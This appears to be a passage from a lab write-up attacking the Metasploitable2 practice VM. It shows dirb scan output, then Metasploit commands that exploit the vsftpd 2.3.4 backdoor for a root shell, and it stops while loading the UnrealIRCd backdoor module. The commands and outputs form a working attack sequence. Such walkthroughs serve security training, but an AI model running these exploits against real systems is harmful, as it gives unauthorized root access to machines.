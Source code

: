 ---- Entering directory: http://192.168.118.177/twiki/lib/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.177/twiki/pub/ ----
+ http://192.168.118.177/twiki/pub/favicon.ico (CODE:200|SIZE:1078)                                                    
==> DIRECTORY: http://192.168.118.177/twiki/pub/Main/                                                                  

---- Entering directory: http://192.168.118.177/phpMyAdmin/setup/frames/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.177/phpMyAdmin/setup/lib/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.177/twiki/pub/Main/ ----

-----------------
END_TIME: Thu May 18 21:57:48 2017
DOWNLOADED: 32284 - FOUND: 56
root@kali:~#

EXPLOIT:

Wow...so lets start at the top.  Googling vsftpd 2.3.4 points us at a Metasplite page for an exploit.  Metasploitable2 is the name of the game.....so lets use msf!

vsftpd backdoor

msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)
msf exploit(vsftpd_234_backdoor) > set rhost 192.168.118.177
rhost => 192.168.118.177
msf exploit(vsftpd_234_backdoor) > run

[*] 192.168.118.177:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.118.177:21 - USER: 331 Please specify the password.
[+] 192.168.118.177:21 - Backdoor service has been spawned, handling...
[+] 192.168.118.177:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.118.176:33109 -> 192.168.118.177:6200) at 2017-05-18 20:26:09 -0400

whoami
root

I'd bet $1 that the version of UnrealIRCD has a problem with it!  Lets blindly try the metasplite module.

msf auxiliary(mysql_login) > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > show options
